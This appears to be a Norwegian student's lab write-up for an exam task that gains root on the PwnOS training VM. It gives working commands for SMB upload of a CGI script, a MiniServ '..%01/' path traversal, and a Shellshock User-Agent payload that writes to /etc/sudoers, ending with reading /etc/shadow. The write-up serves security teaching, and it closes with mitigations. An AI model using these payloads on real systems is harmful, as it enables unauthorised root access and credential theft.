








# 💥 ETH2100 – Shellshock (CVE-2014-6271) mot PwnOS

> **Karakter:** A | ETH2100 Kontinuasjonseksamen – Oppgave 5  
> **CVE:** CVE-2014-6271 (Shellshock)  
> **Mål:** Root-tilgang på PwnOS via SMB → CGI → Shellshock → sudoers  
> **Verktøy:** Nmap, smbclient, ZAP Manual Request Editor, SSH

---

## Angrepskjede

```
[NMAP] → [SMB: CGI-opplasting] → [Path Traversal: MiniServ] → [Shellshock: sudoers-skriving] → [SSH + sudo su: root]
```

---

## Målmiljø

| Port | Tjeneste | Rolle i angrepet |
|------|----------|-----------------|
| 22/tcp | SSH | Innlogging etter privesc |
| 80/tcp | HTTP | Ikke primær vektor |
| 139/tcp | NetBIOS-SSN | SMB – filopplasting |
| 445/tcp | Microsoft-DS | SMB – alternativ tilgang |
| 10000/tcp | MiniServ (Webmin) | **Primær angrepsvektor** |

---

## Steg 1 – Portskanning

```bash
nmap -p- -sS 172.26.69.230
```

**Funn:** SMB (139/445) ga autentisert filtilgang. MiniServ på port 10000 eksekverer CGI-skript med root-rettigheter → angrepskjeden kombinerer disse.

---

## Steg 2 – Opprette CGI-skript

Shellshock trigges når Bash tolker manipulerte miljøvariabler (f.eks. `User-Agent`) under CGI-eksekvering.

```bash
cat > 2.cgi << 'EOF'
#!/bin/sh
echo "Content-Type: text/plain\r\n\r\n"
echo
echo "hacker.cgi"
whoami
EOF
chmod +x 2.cgi
```

---

## Steg 3 – Opplasting via SMB

```bash
smbclient //172.26.69.230/home -U vmware
# Passord: h4ckm3

smb: \> put 2.cgi
# putting file 2.cgi as \2.cgi (9.9 kB/s)
```

Filen plasseres i `/home/vmware/2.cgi`.

---

## Steg 4 – Verifisering via Path Traversal

```
GET http://172.26.69.230:10000/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/home/vmware/2.cgi HTTP/1.1
```

Sekvensen `..%01/` omgår MiniServ sin sti-validering ved å inkludere kontrolltegnet `%01`.

**Respons:**
```
uid=0(root) gid=0(root)
```

CGI-prosessen kjører som root ✓

---

## Steg 5 – Shellshock-payload

```http
User-Agent: () { :; }; /bin/echo "vmware ALL=(ALL) ALL" >> /etc/sudoers
```

**Forklaring:**
- `() { :; };` – Shellshock-triggeren (tom funksjonsdefinisjon)
- Bash eksekverer feilaktig koden som følger
- Skriver `vmware ALL=(ALL) ALL` til `/etc/sudoers` med root-rettigheter

---

## Steg 6 – Privilege Escalation til root

```bash
ssh vmware@172.26.69.230
# Passord: h4ckm3

whoami    # vmware
sudo su

whoami    # root ✓
cat /etc/shadow   # Full systemtilgang bekreftet
```

Prompt endres til `root@ubuntuvm:/home/vmware#`

---

## Teknisk analyse – Shellshock (CVE-2014-6271)

| Felt | Verdi |
|------|-------|
| CVE | CVE-2014-6271 |
| CVSS | 10.0 (Critical) |
| Sårbar komponent | GNU Bash ≤ 4.3 |
| Trigger | Miljøvariabler tolket av Bash i CGI-kontekst |
| Patch | Bash 4.3 patch 25+ |

**Årsak:** Bash evaluerte kode etter funksjonsdefinisjoner i miljøvariabler. I CGI-kontekst overføres HTTP-headere som miljøvariabler → angriper kontrollerer Bash-eksekvering.

---

## Anbefalte tiltak

- Oppdater Bash til patchet versjon (4.3 patch 25+)
- Deaktiver CGI-skriving til brukerkatalog via SMB
- Kjør webserverprosesser med minste privilegium (ikke som root)
- Valider og filtrer HTTP-headere
- Nettverkssegmentering – begrens SMB-tilgang

---

## Skjermbilder

### Figur 1 – Nmap fullstendig portskanning av PwnOS


### Figur 2 – CGI-skript 2.cgi opprettet i nano


### Figur 3 – chmod +x på CGI-skriptet


### Figur 4 – Opplasting av 2.cgi via SMB som bruker vmware


### Figur 5 – Path traversal: CGI eksekveres som uid=0(root)


### Figur 6 – Shellshock-payload i User-Agent via ZAP


### Figur 7 – SSH-innlogging som vmware → sudo su → root + /etc/shadow


### Figur 8 – Angrepskjede (NMAP → SMB → Path Traversal → Shellshock → root)

